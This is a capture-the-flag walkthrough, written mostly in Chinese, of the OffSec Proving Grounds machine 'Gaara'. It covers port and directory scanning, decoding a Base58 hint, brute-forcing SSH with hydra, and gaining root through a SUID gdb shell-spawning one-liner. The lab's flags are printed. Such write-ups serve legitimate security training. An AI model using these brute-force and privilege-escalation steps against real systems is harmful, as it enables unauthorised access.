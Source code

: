 ###### tags: `Offsec` `PG Play` `Easy` `Linux`

# Gaara
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.215.142 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.215.142:80
Open 192.168.215.142:22

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Gaara
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

buster掃，要換大一點的，掃超久
```
┌──(kali㉿kali)-[~/pgplay]
└─$ feroxbuster -u http://192.168.215.142 -q -w /home/kali/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt 

200      GET      761l     2542w   219002c http://192.168.215.142/gaara.jpg
200      GET        5l        8w      137c http://192.168.215.142/
200      GET      302l        3w      327c http://192.168.215.142/Cryoserver
```

```
┌──(kali㉿kali)-[~/pgplay]
└─$ curl http://192.168.215.142/Cryoserver
...
/Temari
/Kazekage
/iamGaara
```

查看`http://192.168.215.142/iamGaara`頁面裡面一堆字發現有一個字串`f1MgN9mTf9SNbzRygcU`
不是base64，丟[dCode](https://www.dcode.fr/cipher-identifier)看看

![Gaara_1.png](picture/Gaara_1.png)

試試看[Base58](https://gchq.github.io/CyberChef/#recipe=From_Base58('123456789ABCDEFGHJKLMNPQRSTUVWXYZabcdefghijkmnopqrstuvwxyz',true)&input=ZjFNZ045bVRmOVNOYnpSeWdjVQ) decode

```
gaara:ismyname
```

發現登入不了用hydra試試看
```
┌──(kali㉿kali)-[~/pgplay]
└─$ hydra -l gaara -P /usr/share/wordlists/rockyou.txt ssh://192.168.215.142

[22][ssh] host: 192.168.215.142   login: gaara   password: iloveyou2
```

ssh登入，`/home/gaara`路徑可得local.txt
```
┌──(kali㉿kali)-[~/pgplay]
└─$ ssh gaara@192.168.215.142
gaara@192.168.215.142's password: iloveyou2

gaara@Gaara:~$ cat local.txt
e7100869b91b77e52a0bb503429db61e
```

找binary，找[GTFOBins](https://gtfobins.github.io/gtfobins/gdb/#suid)，在/root路徑可得到proof.txt
```
gaara@Gaara:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/gdb
/usr/bin/sudo
/usr/bin/gimp-2.10
/usr/bin/fusermount
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/passwd
/usr/bin/mount
/usr/bin/umount

gaara@Gaara:~$ install -m =xs $(which gdb) .
gaara@Gaara:~$ /usr/bin/gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
# whoami
root
# cat proof.txt
4784baefa7f3622c40d46c4b976e26aa
```